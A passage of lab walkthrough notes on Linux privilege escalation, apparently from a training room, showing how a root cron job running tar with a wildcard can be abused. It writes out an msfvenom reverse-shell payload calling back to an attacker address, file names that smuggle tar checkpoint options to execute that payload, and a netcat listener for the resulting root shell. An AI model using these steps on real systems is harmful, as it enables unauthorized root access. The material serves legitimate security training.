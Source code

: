 View the contents of the other cron job script:

`cat /usr/local/bin/compress.sh`

Note that the tar command is being run with a wildcard (\*) in your home directory.

![[Pasted image 20240223134001.png]]


Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

![[Pasted image 20240223134753.png]]

Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:

```
scp -oHostKeyAlgorithms=+ssh-rsa shell.elf user@10.10.229.255:/home/user/
```

![[Pasted image 20240223141531.png]]

`chmod +x /home/user/shell.elf`

![[Pasted image 20240223141624.png]]

Create these two files in /home/user:

`touch /home/user/--checkpoint=1`   
`touch /home/user/--checkpoint-action=exec=shell.elf`


![[Pasted image 20240223141759.png]]


When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.  

`nc -nvlp 4444`  

![[Pasted image 20240223143221.png]]

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

`rm /home/user/shell.elf`
`rm /home/user/--checkpoint=1`
`rm /home/user/--checkpoint-action=exec=shell.elf`  

Answer the questions below

Read and follow along with the above.
